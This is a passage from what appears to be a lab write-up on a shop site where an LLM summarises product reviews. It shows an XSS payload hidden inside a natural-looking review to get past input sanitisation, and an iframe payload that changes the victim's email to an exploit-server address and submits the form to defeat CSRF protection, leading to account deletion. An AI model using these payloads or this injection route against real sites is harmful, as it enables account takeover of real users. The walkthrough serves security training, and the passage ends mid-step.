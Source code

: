 
### Step 3: Bypassing Input Filtering

Attempting the same payload on a different product results in it being sanitized and rendered inside a `<p>` tag.

![Filtered Review](https://github.com/user-attachments/assets/fc23ccf4-04c3-4187-abc2-747e1ba54e5a)

**Bypass Technique:**

Embed the payload within a natural-looking review:

```html
I cannot emphasize how satisfied I am with this product. I even ordered another for my family.
<img src=x onerror=alert('pwned')> I will definitely be back with another review.
```

The payload executes when the LLM summarizes reviews.

![Bypassed XSS](https://github.com/user-attachments/assets/c962d7e3-bc4b-482f-9e02-6dfdac2dfb57)
![XSS on Summary](https://github.com/user-attachments/assets/d350aad7-f2af-45ed-9021-89e11d30dd03)
![Review Response](https://github.com/user-attachments/assets/f00551cb-cf66-457d-9301-e99c102b699c)

Now lets add the email change to an iframe.and change our email with carlos email so we will delete that account email which will delete carlos account and lab is solved

```html
<iframe src=my-account onload=this.contentDocument.forms[0].elements.email.value='carlos@exploit-0ac700c603f67f0d80e5613f0179004d.exploit-server.net',this.contentDocument.forms[0]submit()>

```


Notice we used form[0] which is  used to update emial and form[1] to delete email

<img width="1457" height="626" alt="image" src="https://github.com/user-attachments/assets/790e4101-1adc-48eb-a5cd-e03c6128f52d" />


<img width="1167" height="464" alt="image" src="https://github.com/user-attachments/assets/ad47bcaf-4141-4893-91fe-44dacf8516ac" />

---

### Step 4: Exploiting CSRF-Protected Form Using XSS

Since `fetch()` can’t bypass CSRF tokens, we’ll use an **`<iframe>` approach** to submit the form.

---

### Two Exploitation Approaches

#### 1. Update Carlos' Email and Trigger Account Deletion via LLM

1. Visit the `/my-account` page to find the form elements.
2. Use browser dev tools to inspect the two forms:
